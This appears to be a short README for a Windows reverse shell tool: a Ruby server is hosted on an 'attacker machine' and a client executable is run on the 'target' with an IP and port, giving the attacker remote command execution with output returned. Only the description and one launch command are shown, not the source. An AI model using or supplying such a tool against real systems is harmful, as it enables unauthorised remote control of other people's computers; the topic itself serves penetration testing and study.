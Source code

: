 # Reverse Shell With Getting Output From Windows

These are scripts/exes that can be used as a better reverse shell. It's basically a reverse shell that sends the output of the executions back to you which wouldn't be possible with netcat.




## Host the shell_server.rb on the attacker machine and then use the shell_client.exe / shell_client.rb to connect to it by calling it with these arguments on the target.

```
.\shell_client.exe *IP* *PORT*
```
